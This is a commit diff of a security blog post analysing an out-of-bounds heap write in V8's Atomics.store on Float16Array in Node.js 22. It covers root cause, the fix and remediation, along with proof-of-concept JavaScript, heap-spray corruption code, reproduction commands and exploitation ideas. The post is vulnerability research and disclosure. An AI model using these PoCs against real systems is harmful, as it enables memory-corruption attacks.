

Before and after one commit to ze3tar/ze3tar.github.io, a Jekyll site: the page built from _posts/2026-02-09-v8-float16array-oob.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 93% size, without its empty margins (262-1245 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Add analysis of V8 Float16Array OOB write vulnerability
stuff

````diff
--- a/_posts/2026-02-09-v8-float16array-oob.md
+++ b/_posts/2026-02-09-v8-float16array-oob.md
@@ -1,251 +1,196 @@
----
-layout: post
-title: "V8 12.4.254.21 — OOB Heap Write via Atomics.store on Float16Array"
-date: 2026-02-09
-categories: research
-tags: [v8, javascript, node, heap, oob, type-confusion]
-description: "Atomics.store() on a Float16Array accepts BigInt values without type rejection, performing an 8-byte atomic store into a 2-byte element slot. The result is an attacker-controlled OOB write primitive reaching up to 3x the buffer size past the boundary."
----
+# How I Found an OOB Heap Write in V8's Atomics Implementation
 
-`Atomics.store()` on a `Float16Array` accepts `BigInt` values without proper type rejection, performing a **BigInt64 (8-byte) atomic store** into a **Float16 (2-byte) element slot**. The byte offset is calculated using BigInt64 stride (`index * 8`) instead of Float16 stride (`index * 2`), resulting in:
+## TL;DR
 
-1. **Out-of-bounds writes** past the end of the underlying buffer
-2. **Corruption of adjacent elements** within the buffer
-3. **Heap metadata corruption** demonstrated by `free(): invalid size` errors
+I found a vulnerability in V8 (the JavaScript engine powering Chrome and Node.js) where `Atomics.store()` on a `Float16Array` performs an 8-byte BigInt64 write instead of the expected 2-byte Float16 write. This enables out-of-bounds heap writes up to 3x the buffer size, with full control over the written value. The bug affects Node.js 22 LTS.
 
-This provides an **attacker-controlled OOB write primitive** with full 8-byte value control, capable of writing up to 48+ bytes past the buffer boundary.
+## The Hunt
 
-**Severity:** HIGH (Heap OOB Write — potential RCE)
-**Type:** Type confusion in Atomics builtin — OOB write
-**Affected:** V8 12.4.254.21-node.33 (Node.js 22.x LTS), with `--js-float16array`
-**Fixed in:** V8 14.2+ (Chromium 142+) — Float16 enum position moved
-**Node.js 22 LTS:** STILL VULNERABLE (Active LTS until Oct 2025)
-**Chrome:** Fixed before Float16Array shipped by default in Chrome 135 (April 2025)
-**Feature Status:** Behind `--js-float16array` in Node.js 22; enabled by default in Chrome 135+
+I've been doing research on V8 12.4.254.21 (as shipped in Node.js 22 LTS). My approach: target experimental or recently-added features, since they've had less time to be hardened (hopefully).
+
+Float16Array caught my attention immediately. Added to V8 in March 2024 via [CL 5082566](https://chromium-review.googlesource.com/c/v8/v8/+/5082566), it touched 80+ files across the engine. That's a lot of surface area. Behind the `--js-float16array` flag in Node.js 22, it later shipped by default in Chrome 135 (April 2025).
+
+## Bug #1: Atomics.load Crashes with SIGILL
+
+My first test was simple: what happens when you use Float16Array with APIs designed for integer typed arrays?
+
+```javascript
+Atomics.load(new Float16Array(new SharedArrayBuffer(2)), 0);
+// → Exit code 133 (SIGILL — Illegal Instruction)
+```
+
+The process crashes with `SIGILL`. Root cause: the CSA (CodeStubAssembler) `Switch` in `builtins-sharedarraybuffer-gen.cc` handles 8 integer element kinds, but Float16 isn't one of them. The default case calls `Unreachable()` which emits a `ud2` instruction.
+
+But SIGILL is just a DoS bug. I simply wanted more
+
+## Finding Bug #2: Atomics.store Accepts BigInt
+
+I tested every Atomics operation on Float16Array:
+
+```
+Atomics.store(f16, 0, 1)   → TypeError: Cannot convert 1 to a BigInt
+Atomics.store(f16, 0, 1n)  → SUCCEEDED (?!)
+Atomics.load(f16, 0)       → SIGILL crash
+Atomics.exchange(f16, 0, 1) → SIGILL crash
+```
+
+Wait — `Atomics.store` with a BigInt value *succeeds*? That's not supposed to happen. Float16Array is a float type, not a BigInt type. Let me look at what actually gets written:
+
+```javascript
+const sab = new SharedArrayBuffer(64);
+const f16 = new Float16Array(sab); // 32 elements, 2 bytes each
+const u8 = new Uint8Array(sab);
+
+for (let i = 0; i < 64; i++) u8[i] = 0;
+Atomics.store(f16, 0, 0x4142434445464748n);
+
+console.log(Array.from(u8.slice(0, 8)).map(x => x.toString(16)));
+// Output: ['48', '47', '46', '45', '44', '43', '42', '41']
+```
+
+**8 bytes written.** A Float16 element is 2 bytes. But this wrote 8 bytes — a full BigInt64 store. Elements `f16[1]`, `f16[2]`, and `f16[3]` are all corrupted with attacker-controlled data.
+
+## The Root Cause: Enum Ordering Bug
+
+In V8 12.4, the `ElementsKind` enum places `FLOAT16_ELEMENTS` at position 6 — between `INT32_ELEMENTS` (5) and `BIGUINT64_ELEMENTS` (7):
+
+```
+UINT8(0), INT8(1), UINT16(2), INT16(3), UINT32(4), INT32(5),
+→ FLOAT16(6),
+BIGUINT64(7), BIGINT64(8), UINT8_CLAMPED(9), FLOAT32(10), FLOAT64(11)
+```
+
+This causes two failures in `builtins-sharedarraybuffer-gen.cc`:
+
+**1. ValidateIntegerTypedArray doesn't reject Float16:**
+
+```cpp
+// Line 133-136: Range check
+Branch(Int32LessThanOrEqual(elements_kind,
+    Int32Constant(LAST_VALID_ATOMICS_TYPED_ARRAY_ELEMENTS_KIND)), // = BIGINT64 = 8
+    &not_float_or_clamped, &invalid);
+```
+
+`FLOAT16 = 6 <= BIGINT64 = 8` → TRUE → Float16 passes validation!
+
+Compare: `FLOAT32 = 10 <= 8` → FALSE → correctly rejected.
+
+**2. AtomicsStore routes Float16 to the BigInt64 path:**
+
+```cpp
+// Line 357: Value conversion branching
+GotoIf(Int32GreaterThan(elements_kind, Int32Constant(INT32_ELEMENTS)), &u64);
+```
+
+`FLOAT16 = 6 > INT32 = 5` → TRUE → takes the BigInt64 store path!
+
+The BigInt64 path then:
+1. Calls `ToBigInt(value)` — succeeds for BigInt input
+2. Calls `AtomicStore64(backing_store, WordShl(index_word, 3), ...)` — stores 8 bytes at offset `index * 8`
+
+## Escalation: OOB Heap Write
+
+The BigInt64 stride (`index * 8`) vs Float16 stride (`index * 2`) creates a 4x offset amplification. For a 16-byte SharedArrayBuffer with 8 Float16 elements:
+
+| Index | Float16 offset | BigInt64 offset | Status |
+|-------|---------------|-----------------|--------|
+| 0     | 0             | 0               | In bounds |
+| 1     | 2             | 8               | In bounds |
+| 2     | 4             | 16              | **8 bytes OOB** |
+| 7     | 14            | 56              | **48 bytes OOB** |
+
+The OOB range scales as **3x the buffer size**.
+
+```javascript
+const sab = new SharedArrayBuffer(16);
+const f16 = new Float16Array(sab);
+
+// All these writes go PAST the 16-byte buffer!
+for (let i = 2; i <= 7; i++) {
+    Atomics.store(f16, i, 0x4141414141414141n);
+}
+// → free(): invalid next size (fast)
+// → Exit code 134 (SIGABRT)
+```
+
+The process crashes with a glibc heap corruption error — we've overwritten malloc chunk metadata.
+
+## Proving Controlled Corruption
+
+To prove this isn't just a crash but a controllable primitive:
+
+```javascript
+// Spray adjacent objects
+const canaries = [];
+for (let i = 0; i < 256; i++) {
+    const ab = new ArrayBuffer(16);
+    new DataView(ab).setFloat64(0, 0, true);
+    new DataView(ab).setFloat64(8, 0, true);
+    canaries.push({ab, dv: new DataView(ab)});
+}
+
+const sab = new SharedArrayBuffer(64);
+const f16 = new Float16Array(sab);
+
+// Write our signature OOB
+const SIGNATURE = 0x0000C0DEDEADBEEFn;
+for (let idx = 8; idx < 32; idx++) {
+    try { Atomics.store(f16, idx, SIGNATURE); } catch(e) { break; }
+}
+
+// Check adjacent objects
+for (const c of canaries) {
+    if (c.dv.getBigUint64(0, true) === SIGNATURE) {
+        console.log("CONTROLLED CORRUPTION: signature found in adjacent object");
+    }
+}
+```
+
+Result: `CONTROLLED CORRUPTION: signature found in adjacent object`. Our exact 8-byte value was written into a neighboring heap allocation.
+
+## The Primitive
+
+| Property | Value |
+|----------|-------|
+| Write size | 8 bytes (BigInt64) |
+| Value control | Full (any 64-bit BigInt) |
+| Offset control | `index * 8` (stride of 8) |
+| Alignment | 8-byte aligned |
+| Max OOB | 3x buffer size |
+| Atomicity | Sequentially consistent |
+
+This is a strong exploitation primitive. With heap spraying, an attacker can:
+1. Position target objects adjacent to the vulnerable buffer
+2. Corrupt specific fields (lengths, pointers, metadata)
+3. Chain with an info leak for full code execution
+
+## Impact
+
+- **Node.js 22 LTS** (Active LTS until October 2025): Vulnerable with `--js-float16array`
+- **Chrome**: Fixed before Float16Array shipped in Chrome 135 (April 2025)
+- The fix moved `FLOAT16_ELEMENTS` to position 11 in the enum, outside the valid atomics range
+
+## The Fix
+
+In newer V8 versions, the `TYPED_ARRAYS` macro was reorganized to place Float16 after Float64:
+
+```
+UINT8, INT8, UINT16, INT16, UINT32, INT32, BIGUINT64, BIGINT64,
+UINT8_CLAMPED, FLOAT32, FLOAT64, FLOAT16  ← moved to end
+```
+
+Now `FLOAT16 = 11 > BIGINT64 = 7`, so `ValidateIntegerTypedArray` correctly rejects it, and the `GotoIf` at line 357 is harmless because Float16 never reaches it.
+
+## Lessons Learned
+
+1. **Target new features.** Float16Array was the newest TypedArray kind, and its integration with pre-existing infrastructure (Atomics, TurboFan, Maglev) had gaps.
+
+2. **Enum ordering matters.** The entire bug stems from where `FLOAT16_ELEMENTS` was inserted in an enumeration. Range-based validity checks assumed a specific ordering that broke when a new element was added in the middle.
+
+3. **Test the boundaries.** The Atomics API is designed for integer typed arrays. Testing it with float typed arrays revealed that the validation wasn't airtight for the newest float type.
+
+4. **Follow the crash.** The initial SIGILL crash in `Atomics.load` was just a DoS. But investigating *why* it crashed led to understanding *why* `Atomics.store` didn't crash — and that led to the OOB write.
 
 ---
 
-## Proof of Concept
-
-### Minimal OOB Write
-
-```javascript
-// node --js-float16array
-// Write 8 bytes at byte offset 16 in a 16-byte buffer (8 bytes OOB)
-const sab = new SharedArrayBuffer(16);  // 16 bytes = 8 Float16 elements
-const f16 = new Float16Array(sab);
-
-// Index 2 passes bounds check (2 < 8)
-// But BigInt64 store writes 8 bytes at offset 2*8=16, past buffer end
-Atomics.store(f16, 2, 0xDEADBEEFCAFEBABEn);
-// Writes 8 bytes to heap memory PAST the buffer boundary
-```
-
-### Controlled Adjacent Element Corruption
-
-```javascript
-// node --js-float16array
-const sab = new SharedArrayBuffer(64);
-const f16 = new Float16Array(sab);   // 32 Float16 elements
-const u8 = new Uint8Array(sab);
-
-// Fill buffer with known pattern
-for (let i = 0; i < 64; i++) u8[i] = 0xAA;
-
-// Write BigInt at Float16 index 0: overwrites bytes 0-7 (elements 0-3)
-Atomics.store(f16, 0, 0x4142434445464748n);
-// Bytes 0-7 now: [0x48, 0x47, 0x46, 0x45, 0x44, 0x43, 0x42, 0x41]
-// Elements f16[0] through f16[3] corrupted with attacker-controlled data
-```
-
-### Heap Corruption Demonstration
-
-```javascript
-// node --js-float16array
-const sab = new SharedArrayBuffer(16);
-const f16 = new Float16Array(sab);
-
-Atomics.store(f16, 7, 0x4141414141414141n);  // 48 bytes past buffer
-// Process crashes on exit: "free(): invalid size" (heap metadata corrupted)
-```
-
----
-
-## Vulnerability Analysis
-
-### Root Cause
-
-In V8 12.4, `FLOAT16_ELEMENTS` is inserted into the `ElementsKind` enum at position 6 — **between `INT32_ELEMENTS` (5) and `BIGUINT64_ELEMENTS` (7)**:
-
-```
-UINT8(0), INT8(1), UINT16(2), INT16(3), UINT32(4), INT32(5),
-  FLOAT16(6),  <-- INSERTED HERE
-BIGUINT64(7), BIGINT64(8), UINT8_CLAMPED(9), FLOAT32(10), FLOAT64(11)
-```
-
-This placement has two consequences.
-
-**Bug 1: ValidateIntegerTypedArray fails to reject Float16Array**
-
-In `builtins-sharedarraybuffer-gen.cc` line 133-136:
-
-```cpp
-Branch(Int32LessThanOrEqual(elements_kind,
-    Int32Constant(LAST_VALID_ATOMICS_TYPED_ARRAY_ELEMENTS_KIND)),
-    &not_float_or_clamped, &invalid);
-```
-
-`LAST_VALID_ATOMICS_TYPED_ARRAY_ELEMENTS_KIND = BIGINT64_ELEMENTS = 8`.
-`FLOAT16_ELEMENTS = 6`, so `6 <= 8` is TRUE — Float16 passes validation.
-
-**Bug 2: AtomicsStore treats Float16 as BigInt64**
-
-In `builtins-sharedarraybuffer-gen.cc` line 357:
-
-```cpp
-GotoIf(Int32GreaterThan(elements_kind, Int32Constant(INT32_ELEMENTS)), &u64);
-```
-
-`FLOAT16_ELEMENTS = 6 > INT32_ELEMENTS = 5` is TRUE — Float16 is routed to the BigInt64 store path (`&u64`), which:
-
-1. Calls `ToBigInt(value)` — succeeds when a BigInt is passed
-2. Extracts 8 raw bytes from the BigInt via `BigIntToRawBytes`
-3. Calls `AtomicStore64(backing_store, WordShl(index_word, 3), ...)` — stores 8 bytes at byte offset `index * 8` (BigInt64 stride, not Float16's `index * 2`)
-
-The fix in newer V8 versions moved `FLOAT16_ELEMENTS` to position 11 (after FLOAT64), outside the valid atomics range, so the range check rejects it.
-
-### OOB Calculation
-
-For a buffer of `B` bytes backing a Float16Array:
-
-- Float16 element count: `N = B / 2`
-- Valid index range: `[0, N-1]`
-- BigInt64 byte offset: `index * 8`
-- BigInt64 write end: `index * 8 + 7`
-- OOB begins when: `index >= (B - 7) / 8`
-- Maximum OOB offset: `(N-1) * 8 + 7 - B = 3B - 1`
-
-| Buffer Size | F16 Elements | First OOB Index | Max OOB Bytes |
-|-------------|--------------|-----------------|---------------|
-| 16 bytes    | 8            | 2               | 48 past end   |
-| 32 bytes    | 16           | 4               | 96 past end   |
-| 64 bytes    | 32           | 8               | 192 past end  |
-| 256 bytes   | 128          | 32              | 768 past end  |
-| 1024 bytes  | 512          | 128             | 3072 past end |
-
-The OOB range scales as **3x the buffer size**.
-
-### Primitive Capabilities
-
-| Property       | Value                          |
-|----------------|--------------------------------|
-| Write size     | Always 8 bytes (BigInt64)      |
-| Value control  | Full (any 64-bit BigInt)       |
-| Offset control | `index * 8` (stride of 8)      |
-| Alignment      | 8-byte aligned                 |
-| Atomicity      | Atomic (sequentially consistent) |
-| Buffer types   | ArrayBuffer, SharedArrayBuffer |
-
-### Affected Operations
-
-| Atomics Operation           | Float16Array Behavior          |
-|-----------------------------|--------------------------------|
-| `Atomics.store`             | **OOB WRITE (accepts BigInt)** |
-| `Atomics.load`              | SIGILL crash (Unreachable)     |
-| `Atomics.exchange`          | SIGILL crash                   |
-| `Atomics.add/sub/and/or/xor`| SIGILL crash                   |
-| `Atomics.compareExchange`   | SIGILL crash                   |
-| `Atomics.wait`              | TypeError (correct)            |
-| `Atomics.notify`            | TypeError (correct)            |
-
-Only `Atomics.store` reaches the actual store operation because it converts the value argument first, and BigInt values pass the (incorrect) BigInt conversion. All read-involving operations crash at the load instruction because the CSA Switch has no Float16 case.
-
----
-
-## Security Impact
-
-### Arbitrary Heap Write
-
-An attacker who can execute JavaScript with `--js-float16array` enabled can:
-
-1. Allocate a small `SharedArrayBuffer` (e.g., 16 bytes)
-2. Create a `Float16Array` view over it
-3. Call `Atomics.store(f16, index, bigint_value)` to write 8 attacker-controlled bytes at offsets up to 3x the buffer size past the boundary
-4. Corrupt adjacent heap objects, metadata, or V8 internal structures
-
-### Exploitation Potential
-
-- **Map pointer corruption:** Overwriting a JSObject's Map pointer creates a type confusion primitive (similar to CVE-2024-4947's exploitation technique)
-- **Length field corruption:** Overwriting a FixedArray or TypedArray length field enables arbitrary-length OOB access
-- **Chaining:** Combined with a heap spray and an info leak, this primitive could achieve full code execution
-
-### Limitations
-
-- Requires `--js-float16array` flag in Node.js 22 (experimental)
-- Write alignment is 8 bytes (stride constraint)
-- Write size is fixed at 8 bytes
-- No direct OOB read primitive (`Atomics.load` crashes)
-- V8 sandbox limits direct impact to V8 heap corruption
-
----
-
-## Comparison with Known CVEs
-
-| CVE | Class | Similarity |
-|-----|-------|------------|
-| CVE-2024-4947 | Maglev type confusion, wrong-size write via incorrect offset | Same class |
-| CVE-2018-16065 | TypedArray length desync leading to OOB | Same class |
-| CVE-2025-5419 | Bounds check elimination with corrupted type feedback | Same result |
-
----
-
-## Remediation
-
-Add a Float16Array type check **before** value conversion in the Atomics.store builtin:
-
-```cpp
-// In AtomicsStore, before ToBigInt conversion:
-if (elements_kind == FLOAT16_ELEMENTS) {
-  ThrowTypeError(context, MessageTemplate::kNotIntegerTypedArray,
-                 maybe_array_or_shared_object);
-}
-```
-
-All Atomics operations should reject Float16Array with the correct error ("not an integer typed array") rather than crashing or silently accepting BigInt writes.
-
----
-
-## Reproduction
-
-```bash
-# 1. In-bounds corruption (safe to run)
-node --js-float16array -e "
-const buf = new SharedArrayBuffer(64);
-const f16 = new Float16Array(buf);
-const u8 = new Uint8Array(buf);
-for (let i = 0; i < 64; i++) u8[i] = 0xAA;
-Atomics.store(f16, 0, 0x4142434445464748n);
-console.log('Bytes 0-7:', Array.from(u8.slice(0,8)).map(x=>x.toString(16)));
-// [48, 47, 46, 45, 44, 43, 42, 41] — 8 bytes written, corrupting 3 extra F16 elements
-"
-
-# 2. OOB write past buffer
-node --js-float16array -e "
-const buf = new SharedArrayBuffer(16);
-const f16 = new Float16Array(buf);
-Atomics.store(f16, 2, 0xDEADBEEFn);
-// Writes 8 bytes at byte offset 16 in a 16-byte buffer
-"
-
-# 3. Heap metadata corruption (crashes on exit)
-node --js-float16array -e "
-const buf = new SharedArrayBuffer(16);
-const f16 = new Float16Array(buf);
-Atomics.store(f16, 7, 0x4141414141414141n);
-// free(): invalid size on exit
-"
-```
-
----
-
-*Environment: Node.js v22.22.0 · V8 12.4.254.21-node.33 · Kali Linux 6.16.8+kali-amd64 · 2026-02-09*
+*This research was conducted on Node.js 22.22.0 (V8 12.4.254.21-node.33) running on Kali Linux.*
````
